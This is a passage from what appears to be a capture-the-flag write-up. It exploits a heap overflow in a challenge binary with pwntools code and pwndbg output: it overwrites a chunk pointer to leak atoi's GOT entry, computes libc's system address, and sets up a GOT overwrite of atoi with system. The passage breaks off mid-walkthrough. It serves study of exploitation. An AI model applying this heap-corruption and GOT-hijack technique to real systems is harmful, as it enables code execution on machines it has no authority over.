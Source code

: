 ```
explore(0) # going into the first chunk to overflow into the second chunk
payload1 = flat(
	
	b"B" * 0x20, # padding 
	0, # metadata
	0x0000000000000071, # size
	atoi_addr - 0x40 # Address to leak, as it loads like this - lea    rcx, [rdx + 0x40]
)
edit_level(payload1) # writes the above payload from first level overflowing up to the second
reset()
```

After the above process,

```
pwndbg> tele 0x55a07741c370
00:0000│  0x55a07741c370 ◂— 0
01:0008│  0x55a07741c378 ◂— 0x71 /* 'q' */
02:0010│  0x55a07741c380 —▸ 0x55a037846ff8 (_GLOBAL_OFFSET_TABLE_+16) —▸ 0x7f22091a8070 ◂— push rbx
```

`0x55a07741c380` which is the first pointer of the second chunk, now points to `atoi-0x40`

Moving on, now it's time to move `curr` to become the address of `atoi-0x40` and then we calls `test_level()` to print `curr + 0x40`, which is `atoi - 0x40 + 0x40`, which is the `plt` address of `atoi` !!

```
explore(1) # now curr points to the second chunk 
explore(0) # now curr points to atoi - 0x40
test_level() # leaks curr+0x40 now!
```

Output:

```
Level data: \xa0\xa4\xe8\xc8\xd9\x7f\x00\x00\xb6\x100\x08\xd3U\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00P@0\x08\xd3U\x00\x00
```

And of course we parse it with python! And calculate the address of `system` so that we can overwrite `atoi` to it later. ~~However, on remote server the leak of atoi is not consistent. If organizers know why, please let me know.~~

```
leak = p.recvuntil(b'\x7f', drop = False)[-6:].ljust(8, b'\x00')
leak = u64(leak)
#print(hex(printf_addr))
sys_addr = leak - libc.sym['atoi'] + libc.sym['system']
```

Be reminded that now `curr` still points to `atoi-0x40`. We can call `edit_level()` directly to write stuff to `curr + 0x40`(data section of chunk), which is `atoi - 0x40 + 0x40` at this moment, which would write `atoi` into `system`

```
[0x55b455771038] atoi@GLIBC_2.2.5 -> 0x55b45576e0a6 (atoi@plt+6) ◂— push 7
```
